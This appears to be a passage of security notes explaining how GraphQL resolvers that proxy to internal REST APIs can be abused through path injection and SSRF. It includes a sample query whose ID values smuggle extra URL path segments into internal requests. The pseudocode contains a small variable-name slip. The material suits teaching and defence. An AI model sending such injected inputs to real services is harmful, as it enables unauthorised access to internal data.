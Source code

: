 # Security issues

## Abuse GraphQL as an API gateway

GraphQL resolvers can be implemented as a REST API gateway and use the provided parameters to craft and send requests to the API. It the parameters are not validated properly resolvers can be vulnerable to SSRF.

Suppose, the GrapghQL scheme contains a query that provide information about an user by ID:

```graphql
type Query {
    userByID(id: ID!):User
}

type User {
    id: ID!
    name: String!
    friends: [User!]!
}
```

The resolver can look like this (pseudocode):

```python
results = client.get('https://api.website.internal/users/{id}')
return result.data
```

In this case, you can send request with the following queries:

```graphql
{
    firstFriend: userByID(id: "1337/friends/1"){
        id
        name
    }
    secondFriend: userByID(id: "1337/friends/2"){
        id
        name
    }
}
```

This results in the following GET requests:

```http
https://api.website.internal/users/1337/friends/1
https://api.website.internal/users/1337/friends/2
```

This is possible since the ID Scalar should be [serialized as a string](https://spec.graphql.org/June2018/#sec-ID) and "1337/friends/1" is a valid string.

## Abuse GraphQL engine
